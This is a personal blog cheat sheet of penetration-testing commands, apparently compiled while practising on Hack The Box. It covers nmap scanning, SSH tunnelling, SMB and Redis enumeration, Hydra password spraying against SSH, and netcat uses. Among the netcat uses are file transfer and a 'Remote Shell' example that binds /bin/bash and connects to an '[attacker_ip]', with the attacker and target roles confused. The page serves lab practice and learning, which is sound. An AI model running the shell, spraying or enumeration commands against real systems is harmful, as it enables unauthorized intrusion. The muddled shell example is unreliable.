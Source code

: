 ```yaml
---
title: "Useful Notes"
date: 2024-08-25T13:38:26Z
draft: false
author: "James"
tags: 
  - "Security"
  - "Penetration-Testing"
  - "Linux"
summary: "A page dedicated to quick and easy commands used."
---
```


## Introduction

I have decided to start progressing on Hack The Box while I have some free time to sharpen my skills and knowledge. 

## Useful commands 

#### Nmap

```nmap -F IPADDRESS``` - Fast scan the top 100 ports
```nmap -sV IPADDRESS``` - Service version detection
```nmap -O IPADDRESS``` - Operating system detection 
```nmap -sT IPADDRESS```- TCP Scan
```nmap -p- IPADDRESS```- Scan all ports

#### SSH

SSH Tunnelling to establish a connection with the remote ssh server and will listen for connections on the local port 1234 and forward to remote server on port 22. We can then access the services on the remote machine as if they were running locally. 
```ssh -L 1234:localhost:22 user@{target_IP}```

#### SMB

```smbclient -L``` is used to list file shares.

```smbclient -L \\IPADDRESS -U anonymous```
  Use tag "-W" to specify the workgroup.

Use ```get``` & ```put``` retrospecifively to download/upload files.

#### Redis
```redis-cli -u redis://host:port``` - To connect
```redis-cli -h``` - To get hostname

Once connected, run the ```info``` command to get the information about the system. 

Run the ```select``` command to enter the database.

#### Samba

```smbmap -H 10.10.10.3``` - Find shares

#### FTP

The below result from an Nmap scan shows the server allows anonymous logins:

```ftp-anon: Anonymous FTP login allowed (FTP code 230)```

#### Passwords

We can use Hydra to iterate through usernames and use the same password for each user via SSH:

```hydra -L users.txt -p 'PASSWORD' {target_IP} ssh```

#### Network Sockets

The command `ss -tlnp` is used to display detailed information about network sockets on a Linux system. Here's a breakdown of what each option means:

- **`ss`**: This is the command used to display network socket information (similar to `netstat`, but faster and more powerful).
  
- **`-t`**: Show **TCP** sockets only.
  
- **`-l`**: Show only **listening** sockets (i.e., sockets that are waiting for incoming connections, such as servers).

- **`-n`**: Show numerical addresses and ports instead of resolving hostnames or service names. For example, it shows `127.0.0.1` instead of `localhost`, and `80` instead of `http`.

- **`-p`**: Show the **process** using the socket, along with the PID (Process ID) and the name of the program.

### Example output:
```bash
State   Recv-Q  Send-Q  Local Address:Port   Peer Address:Port  Process
LISTEN  0       128     127.0.0.1:5432       0.0.0.0:*          users:(("postgres",pid=12345,fd=7))
LISTEN  0       128     0.0.0.0:22           0.0.0.0:*          users:(("sshd",pid=6789,fd=3))


#### Netcat

Netcat (or nc) is a versatile networking tool that is often referred to as the "Swiss Army knife" of networking. It is used for a variety of tasks involving network connections

```bash
# 1. Basic Syntax
nc [options] [hostname] [port]

# 2. Start a TCP Server
nc -l -p 1234

# 3. Connect to a TCP Server
nc [hostname] 1234

# 4. File Transfer
# On the server (receiving):
nc -l -p 1234 > received_file
# On the client (sending):
nc [server_ip] 1234 < file_to_send

# 5. Port Scanning
nc -zv [hostname] [port_range]
# Example:
nc -zv localhost 20-80

# 6. Simple Chat
# Listener:
nc -l -p 1234
# Connector:
nc [hostname] 1234

# 7. UDP Mode
# Send UDP packets:
nc -u [hostname] 1234
# Listen for UDP packets:
nc -u -l -p 1234

# 8. Remote Shell
# Listener (attacker's machine):
nc -l -p 4444 -e /bin/bash
# Client (target's machine):
nc [attacker_ip] 4444

# 9. Check if a Port is Open
nc -zv [hostname] [port]
# Example:
nc -zv example.com 80

# 10. Set a Timeout
nc -w 3 [hostname] 1234
